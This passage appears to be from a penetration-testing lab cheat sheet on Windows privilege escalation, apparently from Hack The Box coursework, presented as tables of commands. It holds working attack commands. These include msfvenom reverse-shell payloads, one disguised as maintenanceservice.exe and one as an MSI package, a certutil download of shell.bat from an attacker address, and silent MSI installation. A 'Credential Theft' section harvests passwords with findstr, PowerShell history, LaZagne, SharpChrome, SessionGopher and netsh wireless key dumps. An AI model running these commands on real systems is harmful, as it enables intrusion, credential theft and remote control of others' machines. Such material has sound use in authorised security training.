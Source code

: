 |`Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`|Check startup programs|
|`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`|Generating a malicious binary|
|`get-process -Id 3324`|Enumerating a process ID with PowerShell|
|`get-service \| ? {$_.DisplayName -like 'Druva*'}`|Enumerate a running service by name with PowerShell|

## Credential Theft

|**Command**|**Description**|
|---|---|
|`findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`|Search for files with the phrase "password"|
|`gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password`|Searching for passwords in Chrome dictionary files|
|`(Get-PSReadLineOption).HistorySavePath`|Confirm PowerShell history save path|
|`gc (Get-PSReadLineOption).HistorySavePath`|Reading PowerShell history file|
|`$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`|Decrypting PowerShell credentials|
|`cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`|Searching file contents for a string|
|`findstr /si password *.xml *.ini *.txt *.config`|Searching file contents for a string|
|`findstr /spin "password" *.*`|Searching file contents for a string|
|`select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`|Search file contents with PowerShell|
|`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`|Search for file extensions|
|`where /R C:\ *.config`|Search for file extensions|
|`Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`|Search for file extensions using PowerShell|
|`cmdkey /list`|List saved credentials|
|`.\SharpChrome.exe logins /unprotect`|Retrieve saved Chrome credentials|
|`.\lazagne.exe -h`|View LaZagne help menu|
|`.\lazagne.exe all`|Run all LaZagne modules|
|`Invoke-SessionGopher -Target WINLPE-SRV01`|Running SessionGopher|
|`netsh wlan show profile`|View saved wireless networks|
|`netsh wlan show profile ilfreight_corp key=clear`|Retrieve saved wireless passwords|

## Other Commands

|**Command**|**Description**|
|---|---|
|`certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`|Transfer file with certutil|
|`certutil -encode file1 encodedfile`|Encode file with certutil|
|`certutil -decode encodedfile file2`|Decode file with certutil|
|`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`|Query for always install elevated registry key (1)|
|`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`|Query for always install elevated registry key (2)|
|`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`|Generate a malicious MSI package|
|`msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`|Executing an MSI package from command line|
|`schtasks /query /fo LIST /v`|Enumerate scheduled tasks|